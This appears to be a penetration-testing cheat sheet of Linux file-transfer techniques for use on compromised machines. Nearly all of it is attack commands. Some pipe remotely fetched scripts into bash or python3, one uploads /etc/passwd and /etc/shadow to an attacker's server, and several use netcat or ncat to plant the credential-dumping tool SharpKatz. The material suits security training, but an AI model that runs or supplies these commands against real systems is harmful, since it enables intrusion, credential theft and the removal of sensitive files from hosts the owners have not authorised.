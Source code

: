 ```yaml
---
title: Linux File Transer
tags: [download, upload, wget, curl, base64]
tools: ['ftp', 'openssl', 'python']
notes: "Various file transfer techniques for Linux"
---
```

# Linux File Transfer

## Download Operations

### Base64 Encoding / Decoding

**Check MD5 and Encode/Decode:**

```bash
# Check MD5 and encode
md5sum id_rsa
4e301756a07ded0a2dd6953abf015278  id_rsa

cat id_rsa |base64 -w 0;echo
---SNIP---

# Decode and check MD5
echo -n '---SNIP---' | base64 -d > id_rsa

md5sum id_rsa
4e301756a07ded0a2dd6953abf015278  id_rsa
```

---

### cURL / wget

Some payloads such as `mkfifo` write files to disk. Keep in  mind that while the execution of the payload may be fileless when you  use a pipe, depending on the payload chosen it may create temporary  files on the OS.

```bash
# Standard
wget https://host/LinEnum.sh -O /tmp/LinEnum.sh
curl -o /tmp/LinEnum.sh https://host/LinEnum.sh

# Fileless
curl https://host/LinEnum.sh | bash
wget -qO- https://host/script.py | python3
```

---

### Download with Bash (/dev/tcp)

**Connect to the Target Webserver**:

```bash
# Connect
exec 3<>/dev/tcp/10.10.10.32/80

# HTTP GET request
echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3

# Print response
cat <&3
```

---

### Downloading Files Using SCP

`scp plaintext@192.168.1.10:/root/myroot.txt . `

---

## Upload Operations

### Web Upload

**Python upload server:**

```bash
# Create cert
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'

# Start server
sudo python3 -m uploadserver 443 --server-certificate ~/server.pem

# Upload file
curl -X POST https://192.168.1.10/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```

---

### Alternative Web File Transfer Method

It is possible to stand up a web server using various languages. A  compromised Linux machine may not have a web server installed. In such  cases, we can use a mini web server. 

```bash
# Python3
python3 -m http.server

# python2
python2.7 -m SimpleHTTPServer

# PHP
php -S 0.0.0.0:8000

# Ruby
ruby -run -ehttpd . -p8000

# SCP
scp /etc/passwd user@192.168.1.10:/tmp/
```

---

## Miscellaneous File Transfer Methods

### File Transfer with Netcat and Ncat

> These methods can be reversed for upload to attack machine, if allowed through firewall 

Send to Compromised Machine

```bash
# Netcat
# Setup the listener on compromised host
nc -l -p 8000 > SharpKatz.exe
# Send the file
nc -q 0 192.168.49.128 8000 < SharpKatz.exe

# Ncat
# Setup the listener on compromised host
ncat -l -p 8000 --recv-only > SharpKatz.exe
# Send the file
ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```

---

### Sending file as input   

```bash
# 443 is used due to firewall

# Netcat
# Sending file from attack machine
sudo nc -l -p 443 -q 0 < SharpKatz.exe

# Receive the file
nc 192.168.49.128 443 > SharpKatz.exe

# Ncat - 443 is used due to firewall
# Sending file from attack machine
sudo ncat -l -p 443 --send-only < SharpKatz.exe

# Receive the file
ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```

---
